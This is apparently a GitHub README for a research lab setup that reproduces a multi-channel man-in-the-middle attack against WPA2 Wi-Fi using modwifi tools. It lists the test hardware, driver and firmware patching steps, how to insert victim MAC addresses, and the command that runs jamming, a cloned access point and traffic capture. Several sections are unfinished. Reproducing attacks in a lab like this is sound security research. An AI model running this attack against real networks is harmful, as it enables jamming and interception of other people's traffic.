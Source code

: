 # Multi Channel Man-in-the-Middle Attacks Against Protected Wi-Fi Networks
This repository describes how to perform MC-MitM (Base Variant) attack using [modwifi tools](https://github.com/vanhoefm/modwifi).To successfully implement this attack, it is important to keep specific linux OS kernels, Wi-Fi cards and several changes in the attack codes. Here, I enlighten about various procedures to perform the MC-MitM attack on WPA2 networks.    
## Brief Background  
Under Construction
## Attack Environment Setup
This tool is tested with the following software platforms and hardware

* Attacker Machine
  * HP Elite 8300 SFF Quad Core
  * OS: XUbuntu 16.04.7 LTS
  * Kernel: 4.4.0-210-generic (Verify your kernel using "uname -r" command)
  * Three Wi-Fi Cards: Qualcomm Atheros Communications AR9271. Driver: ath9k_htc
  * Two Wi-Fi cards working on two different channels and one for jamming the original channel of the Wi-Fi router

* Victim Device 1
  * Dell Inspiron 15 30000 series
  * OS: Microsoft 10
* Victim Device 2
  * Samsung Galaxy S7 Edge
  * OS: Adroid 8.0.0
  
* Access Point:
  * TP-LINK Wireless N Router (TL-WR841N)
  * Hardware Version: A2
  * Firmware Version: 8.04
  * Operating mode:802.11g
  * Configured with 50% TX power and channel 1
  * SSID:testnet
  * Wireless Security: WPA/WPA2-PSK
  * Encryption Algorithm: TKIP
  
## Prerequisites and Installation Procedure
### 1. Install the following dependencies on Xubuntu
```
$sudo apt-get update
$sudo apt-get install build-essential libncurses-dev bison flex libssl-dev
$sudo apt-get install g++ libssl-dev libnl-3-dev libnl-genl-3-dev cmake
```
Note:It is better to install each package indiviually
### 2. Install the following modwifi package
Various modwifi packages can be downloaded from [this link](https://github.com/vanhoefm/modwifi/tree/master/releases) according to your linux kernel. However,I use the package "modwifi-4.4-1.tar.gz" since my linux kernal is 4.4. Then perform the following..
```
mkdir modwifi && cd modwifi
wget https://github.com/vanhoefm/modwifi/raw/master/releases/modwifi-4.4-1.tar.gz
tar -xf modwifi-4.4-1.tar.gz
cd drivers && make defconfig-ath9k-debug
make
sudo make install
cd ..
```
### 3. Update firmware of Wi-Fi cards
Backup your Wi-Fi cardś driver and modify them using the following commands
```
compgen -G /lib/firmware/ath9k_htc/*backup || for FILE in /lib/firmware/ath9k_htc/*; do sudo cp $FILE ${FILE}_backup; done
```
To compile and update new firmware, clone the [ath9k-htc repository ](https://github.com/vanhoefm/modwifi-ath9k-htc) or download the ZIP folder, extract the folder, and perform the following
```
make toolchain
make -C target_firmware
```
At the end, two new files named "htc_7010.fw" and "htc_9271.fw" will be appeared in the folder named "target_firmware". Now, replace these two files respectively with "htc_7010-1.4.0.fw" and "htc_9271-1.4.0.fw" located in "/lib/fimware/ath9k_htc" directory. This can be done by 
```
sudo cp /home/manesh/Desktop/modwifi-ath9k-htc-research/target_firmware/htc_7010.fw /lib/firmware/ath9k_htc/htc_7010-1.4.0.fw
```
### 4. Update and compile attack codes
First, we need to rectify certain bugs in the sources codes of MC-MitM attack. As an easy step, modified sources codes/tools can be downloaded from [this link] (https://github.com/Rot127/modwifi-tools/tree/modernization). Downalod the ZIP folder and extract it, which will create a folder named "modwifi-tools-modernization". Then do the following
```
1. cd tools
2. open channelmitm.cpp file
3. Edit MAC address of the client/victim devices in lines 52 and 53 respectively.
4. Compile all files using following commands
   *cmake CMakeLists.txt 
   *make all
```
## Attack Tool Usage
 Before executing tool, we need to change monitor mode on three interfaces. Use ´airmon-ng´ or ´iwconfig´ command to know names of wireless interfaces. Then use the following script to enable monitor mode on them.
 ```
 $sudo ./config_dongle.sh -i wlan# -k
 ```
 The attack tool can be executed using follwoing command line arguments. Download attack folder from the link (Under construction). 

 ```
 $sudo ./channelmitm -a wlan0 -c wlan1 -j wlan2 -s testnetwork -d mitm.pcap --dual
 ```
 ### Below are the details of wireless interfaces
 
 * `wlan0`: Wireless interface on the channel of AP which listens and injects packets on the real channel
 * `wlan1`: Wireless interface that runs the Rogue AP or cloned AP
 * `wlan1`: Wireless Interface used to jam the targeted AP
 * `"testnet"`: SSID of the target network
 * `mitm.pcap`: Capture traffic from cloned AP to clients to .pcap file
 *  `dual`: Indicates to attack both clients
 * You can see many other options running `sudo ./channelmitm `!
 

 ### Files Generated
 After running the script for the first time, some new files will be generated:

  ## Demonstration Video
[![Analysis of Network behavior during channel switch announcements](https://github.com/maneshthankappan/Multi-Channel-Man-in-the-Middle-Attacks-Against-Protected-Wi-Fi-Networks/blob/main/thumb.jpg)](https://www.youtube.com/watch?v=axqbioyjom0)

  ## Analysis of network behavior during MC-MitM attack
  Under construction  
  
  ## Troubleshooting
  Under construction  
 hhhhhh
  ### References
